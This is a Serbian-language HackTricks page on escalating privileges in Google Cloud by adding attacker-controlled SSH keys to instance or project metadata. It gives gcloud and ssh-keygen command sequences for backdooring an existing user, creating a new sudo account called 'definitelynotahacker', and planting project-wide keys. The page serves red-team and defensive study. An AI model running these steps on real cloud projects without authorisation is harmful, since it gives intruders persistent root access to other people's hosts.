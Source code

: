 # GCP - Dodavanje prilagođenih SSH metapodataka

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite videti **oglašavanje vaše kompanije na HackTricks-u** ili **preuzeti HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Modifikacija metapodataka <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Modifikacija metapodataka na instanci može dovesti do **značajnih sigurnosnih rizika ako napadač stekne potrebne dozvole**.

### **Uključivanje SSH ključeva u prilagođene metapodatke**

Na GCP-u, **Linux sistemi** često izvršavaju skripte iz [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Kritična komponenta ovoga je [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), koji je dizajniran da **redovno proverava** krajnju tačku metapodataka instance radi **ažuriranja autorizovanih SSH javnih ključeva**.

Dakle, ako napadač može da izmeni prilagođene metapodatke, može naterati demona da pronađe novi javni ključ, koji će biti obrađen i **integriran u lokalni sistem**. Ključ će biti dodat u `~/.ssh/authorized_keys` fajl postojećeg korisnika ili potencijalno će biti kreiran novi korisnik sa `sudo` privilegijama, u zavisnosti od formata ključa. Napadač će moći da kompromituje host.

### **Dodavanje SSH ključa postojećem privilegovanom korisniku**

1. **Pregled postojećih SSH ključeva na instanci:**
- Izvršite komandu za opisivanje instance i njenih metapodataka kako biste pronašli postojeće SSH ključeve. Relevantni deo u izlazu će biti pod `metadata`, tačnije ključ `ssh-keys`.
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
- Obratite pažnju na format SSH ključeva: korisničko ime prethodi ključu, odvojeni dvotačkom.

2. **Pripremite tekstualni fajl za metapodatke SSH ključeva:**
- Sačuvajte detalje korisničkih imena i njihovih odgovarajućih SSH ključeva u tekstualni fajl nazvan `meta.txt`. Ovo je neophodno kako biste sačuvali postojeće ključeve prilikom dodavanja novih.

3. **Generišite novi SSH ključ za ciljnog korisnika (`alice` u ovom primeru):**
- Koristite `ssh-keygen` komandu za generisanje novog SSH ključa, obezbeđujući da polje za komentar (`-C`) odgovara ciljnom korisničkom imenu.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- Dodajte novi javni ključ u `meta.txt`, oponašajući format koji se nalazi u metapodacima instance.

4. **Ažurirajte metapodatke SSH ključeva instance:**
- Primijenite ažurirane metapodatke SSH ključeva na instancu koristeći `gcloud compute instances add-metadata` komandu.
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **Pristupite instanci koristeći novi SSH ključ:**
- Povežite se sa instancom putem SSH-a koristeći novi ključ, pristupajući ljusci u kontekstu ciljnog korisnika (`alice` u ovom primeru).
```bash
ssh -i ./key alice@localhost
sudo id
```

### **Kreiranje novog privilegovanog korisnika i dodavanje SSH ključa**

Ako nije pronađen nijedan interesantan korisnik, moguće je kreirati novog korisnika koji će dobiti `sudo` privilegije:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### SSH ključevi na nivou projekta <a href="#sshing-around" id="sshing-around"></a>

Moguće je proširiti pristup SSH-u na više virtuelnih mašina (VM) u cloud okruženju **primenom SSH ključeva na nivou projekta**. Ovaj pristup omogućava SSH pristup bilo kojoj instanci unutar projekta koja nije eksplicitno blokirala SSH ključeve na nivou projekta. Evo sažetog vodiča:

1. **Primenite SSH ključeve na nivou projekta:**
- Koristite `gcloud compute project-info add-metadata` komandu da biste dodali SSH ključeve iz `meta.txt` u metapodatke projekta. Ova akcija osigurava da se SSH ključevi prepoznaju na svim VM-ovima u projektu, osim ako VM ima omogućenu opciju "Blokiraj SSH ključeve na nivou projekta".
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **SSH pristup instancama korišćenjem ključeva na nivou projekta:**
- Sa ključevima na nivou projekta, možete SSH-ovati na bilo koju instancu unutar projekta. Instance koje ne blokiraju ključeve na nivou projekta će prihvatiti SSH ključ i omogućiti pristup.
- Direktan način za SSH pristup instanci je korišćenje `gcloud compute ssh [INSTANCA]` komande. Ova komanda koristi vaše trenutno korisničko ime i SSH ključeve postavljene na nivou projekta kako bi pokušala pristup.

# Reference
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
